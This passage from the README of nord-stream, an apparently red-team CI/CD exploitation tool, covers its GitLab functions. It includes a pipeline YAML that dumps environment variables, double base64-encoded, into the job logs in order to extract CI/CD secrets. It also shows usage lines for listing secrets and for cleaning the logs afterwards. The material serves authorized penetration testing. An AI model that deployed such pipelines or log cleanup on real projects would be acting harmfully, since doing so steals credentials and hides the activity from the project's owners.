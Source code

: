 ### GitLab

As described in the article, there is no way to remove the logs in the activity tab after a pipeline deployment. This must be taken into account during Red Team engagements.

#### List secrets

The `--list-secrets` option can be used to list and extract secrets from GitLab.

The way in which GitLab manages secrets is a bit different from Azure DevOps and GitHub action. With admin access to a project, group or even admin access on the GitLab instance, it is possible to extract all the CI/CD variables that are defined without deploying any pipeline.

From a low privilege user however, it is not possible to list the secrets that are defined at the project / group or instance levels. However, if users have write privileges over a project, they will be able to deploy a malicious pipeline to exfiltrate the environment variables exposing the CI/CD variables. This means that a low privilege user has no mean to know if a secret is defined in a specific project. The only way is to look at legitimate pipelines that are already present in a project and check if a pipeline uses sensitive environment variables.

Here is a pipeline file to perform this operation on GitLab:

```yaml
stages:
  - synacktiv

deploy-production:
  image: ubuntu:latest
  stage: synacktiv
  script:
    - env | base64 -w0 | base64 -w 0
```

GitLab also support secure files like Azure DevOps. Secure files are defined at the project level. Like the variables It's not possible to list the secure files without admin access to the project. However, with admin access nord-stream will try to exfiltrate the secure files related to the projects.

#### YAML

Same as [YAML](#yaml), however you need to provide the full project path like this:

```sh
$ nord-stream.py gitlab --token "$PAT" --url https://gitlab.corp.local --project 'group/projectname' --yaml ci.yml
```

The output of the command `--list-projects` returns such path.

#### List protections

Same as [GitHub list protections](#list-protections)

#### Help
```
$ python3 nord-stream.py gitlab -h
CICD pipeline exploitation tool

Usage:
    nord-stream.py gitlab [options] --token <pat> (--list-secrets | --list-protections) [--project <project> --group <group> --no-project --no-group --no-instance --write-filter]
    nord-stream.py gitlab [options] --token <pat> ( --list-groups | --list-projects ) [--project <project> --group <group> --write-filter]
    nord-stream.py gitlab [options] --token <pat> --yaml <yaml> --project <project> [--no-clean]
    nord-stream.py gitlab [options] --token <pat> --clean-logs [--project <project>]
    nord-stream.py gitlab [options] --token <pat> --describe-token

Options:
    -h --help                               Show this screen.
```